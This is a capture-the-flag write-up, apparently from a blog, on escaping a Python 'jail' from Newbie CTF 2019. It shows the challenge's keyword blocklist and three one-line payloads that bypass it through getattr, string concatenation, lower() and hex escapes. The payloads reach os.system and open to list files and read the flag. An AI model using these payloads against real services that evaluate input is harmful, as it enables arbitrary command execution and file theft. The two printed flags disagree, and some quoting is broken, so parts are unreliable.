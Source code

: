 ```yaml
---
title: "How to Python jail escape (Newbie CTF 2019)"
date: "May 1, 2022"
excerpt: "Python jail escape: a challenge with one of the lowest points in the Newbie CTF 2019 which we solve in this article. We use built-in methods."
cover_image: "https://dspyt.com/images/posts/jailescape/image-e1658960653261.webp"
tags:
  [
    "Python",
    "ctf",
    "ctf jail",
    "ethical hacking",
    "security",
    "Newbie CTF",
    "Newbie CTF 2019",
    "pyjail",
    "bash",
    "data",
    "built-in methods",
    "getattr",
  ]
---
```


Python jail escape: a challenge with one of the lowest points in the Newbie CTF 2019 which we solve in this article. It is generally a bad idea to allow users to input commands that will be executed since there is a high chance that they could input something that would allow them to gain elevated permissions or access sensitive data. However, people often add condition checks in an attempt to prevent this from happening, even though it is rarely effective.

The jail is basically a set of python code that is executed on the python process when the user executes certain commands, in this case entering specific lines of text. This is possible since Python allows passing parameters to the application. In this particular case, the script only checks if the command passed is not banned.

![Python jail Escape](https://dspyt.com/images/posts/jailescape/image-2.webp)

## Python Jail escape: Code

We connect to the virtual environment. Next the following text appears:

```bash
Hi! Welcome to pyjail!
========================================================================
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
print(“Hi! Welcome to pyjail!”)
print(“========================================================================”)
print(open(__file__).read())
print(“========================================================================”)
print(“RUN”)
text = input(‘>>> ‘)
for keyword in [‘eval’, ‘exec’, ‘import’, ‘open’, ‘os’, ‘read’, ‘system’, ‘write’]:
if keyword in text:
print(“No!!!”)
return;
else:
exec(text)
if __name__ == “__main__”:
main()
========================================================================
RUN
```

The source code for the program is available, so we can figure out what needs to be done in order to beat the condition checks. The functions that could be used to get the flag are not allowed :'eval’, ‘exec’, ‘import’, ‘open’, ‘os’, ‘read’, ‘system’, ‘write’. However, we could utilize the concatenation of strings to evade the restriction as well as using [Built-in functions](https://docs.python.org/3/library/functions.html).

In order to understand how Python evaluates statements, let’s take a look at an example. If you write “import os” in a Python script, Python will retrieve a function object called `import` and pass it the input `os`. This will return a class called “os” with the relevant methods. Besides, you can use built-in objects in Python by using the **built-in** module. This module is not typically accessed directly by most applications. Nevertheless, it can be useful for modules that provide objects with the same name as a built-in value.

```bash
>>> print(getattr(getattr(globals()['__builtins__'], '__im'+'port__')('o'+'s'), 'sys'+'tem')('ls .'))
bin
boot
dev
etc
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
0
>>> print(getattr(getattr(globals()[‘__builtins__’], ‘__im’+’port__’)(‘o’+’s’), ‘sys’+’tem’)(‘cat home/python_jail/flag’))

KorNewbie{H311oh0w@r3_y0u_d0lng?}
```

Another solution to the Capture the Flag challenge is to use lower() string method:

```bash
>>>__builtins__.__dict__[‘__IMPORT__’.lower()](‘OS’.lower()).__dict__[‘SYSTEM’.lower()](‘cat /home/python_jail/flag’)
```

We could also encode the strings to display the hidden key:

```bash
>>> print(getattr(getattr(getattr(main, ‘__globals__’)[‘__builtins__’], ‘\x6f\x70\x65\x6e’)(‘/home/python_jail/flag’, ‘rb’), ‘\x72\x65\x61\x64’)())
b’\xef\xbb\xbfKorNewbie{H311o_h0w_@r3_y0u_d0lng?}
```

## Related Posts

- [Simple Ceramic Data Model App and Unstoppable Domains](https://dspyt.com/simple-app-with-ceramic-data-model-and-unstoppable-domains)
- [Simple QR code generator on AWS with Flask](https://dspyt.com/simple-qr-code-generator-on-aws-with-flask)
- [How to implement asyncio python tutorial](https://dspyt.com/simple-asynchronous-python-webscraper-tutorial)
- [How to generate parsiq wallet triggers for CryptoPunks](https://dspyt.com/generating-fast-and-easy-parsiq-triggers-for-cryptopunks)
- [Guide to Marhaba Decentralized Financial Platform](https://dspyt.com/mrhb-defi-great-technologies-and-functionalities)
